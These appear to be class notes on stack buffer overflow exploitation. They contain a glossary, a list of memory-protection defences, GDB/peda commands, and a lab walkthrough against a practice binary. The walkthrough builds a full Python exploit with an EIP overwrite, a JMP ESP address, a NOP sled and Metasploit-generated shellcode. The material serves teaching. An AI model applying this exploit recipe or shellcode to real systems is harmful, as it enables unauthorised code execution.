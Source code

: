**Buffer Overflow Common Terms**
**Heap**
Memory that can be allocated and deallocated
**Stack**
A contiguous section of memory used for passing arguments
**Registers**
Storage elements as close as possible to the central processing unit (CPU)
**Instruction Pointer (IP)**
a.k.a Program Counter (PC), contains the address of next instruction to be executed
**Stack Pointer (SP)**
Contains the address of the next available space on the stack (points to the top)
**Base Pointer (BP)**
The base of the stack  (points to the bottom)
**Function**
Code that is separate from the main program that is often used to replace code the repeats in order to make the program smaller and more efficient
**Shellcode**
The code that is executed once an exploit successfully takes advantage of a vulnerability
''' ''' ''' ''' ''' ''' ''' ''' ''' ''' '''
**Buffer Overflow Defenses**
    **Non executable (NX) stack**
      a stack that is marked as non-executable, meaning that it cannot be utilized to store or execute code
    **Address Space Layout Randomization (ASLR)**
      randomize the memory addresses where a program's code, data, and heap are loaded
    **Data Execution Prevention (DEP)**
      marks certain areas of your computer's memory as non-executable, preventing code from running from those areas.
    **Stack Canaries**
      are a secret value placed on the stack which changes every time the program is started
    **Position Independent Executable (PIE)**
      executable binaries made entirely from position-independent code

**Utilizing tools such as:**
    IDA, GHIDRA
    GDB, MONA, IMMUNITY
    BASH, PYTHON

**GDB Uses**
Installation of Peda Plugin
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
**Common Commands**
disass <FUNCTION>   #   Disassemble portion of the program
info <...>  #   Supply info for specific stack areas
x/256c $<REGISTER>  #   Read characters from specific register
break <address>  #   Establish a break point

---------------------------------------------------------
Class Demo Notes
--
file func
strings func
gdb func
run (may have to chmod file)
disass main
disass getuserinput
disass gets / disass puts (splits)

puts - prestandard command prints to standard output
gets- prestandard command reads from standard input (user/file input) (deprecated)

pdisass getuserinput - shows if function is vulnerable
run <<< $(python test.py) - runs to see if input allows files

enter a bunch of A's to try to buffer overflow
get the number that will make it overflow

then right script

buffer = "A" * 62
eip = "BBBB"
print(buffer + eip)

env - gdb func (allows us to set environmental variables)
show-env
unset LINES
unset COLUMNS

crash the program

info proc map ( memory locations of all processes running)
find /b 0xf7de2000 , 0xf7ffe000 , 0xff, 0xe4
            top location, bottom location, jump esp command

copy first 3
put them in code
then flip order

buffer = "A" * 62
#eip = "BBBB"
eip = "\x59\x3b\xde\xf7"
#0xf7de3b59 "\xf7\xde\x3b\x59" "\x59\x3b\xde\xf7"
#0xf7f588ab "\xf7\xf5\x88\xab" "\xab\x88\xf5\xf7"
#0xf7f645fb "\xf7\xf6\x45\xfb" "\xfb\x45\xf6\xf7"
nop = '\x90' * 5
print(buffer + eip + nop)
-then run script

msfconsole
use payload/linux/x86/exec
set CMD whoami
show options
generate -b "\x00" -f python
copy the entire buf and put it in script




buffer = "A" * 62
#eip = "BBBB"
eip = "\x59\x3b\xde\xf7"
#0xf7de3b59 "\xf7\xde\x3b\x59" "\x59\x3b\xde\xf7"
#0xf7f588ab "\xf7\xf5\x88\xab" "\xab\x88\xf5\xf7"
#0xf7f645fb "\xf7\xf6\x45\xfb" "\xfb\x45\xf6\xf7"
nop = '\x90' * 5
buf = b""
buf += b"\xbf\x25\x37\x36\x07\xd9\xc3\xd9\x74\x24\xf4\x5b"
buf += b"\x31\xc9\xb1\x0b\x31\x7b\x14\x83\xc3\x04\x03\x7b"
buf += b"\x10\xc7\xc2\x5c\x0c\x5f\xb4\xf3\x74\x37\xeb\x90"
buf += b"\xf1\x20\x9b\x79\x71\xc6\x5c\xee\x5a\x74\x34\x80"
buf += b"\x2d\x9b\x94\xb4\x29\x5b\x19\x45\x41\x33\x76\x24"
buf += b"\xc0\xaa\x88\xf1\x49\xa5\x68\x30\xed"
print(buffer + eip + nop + buf)






























































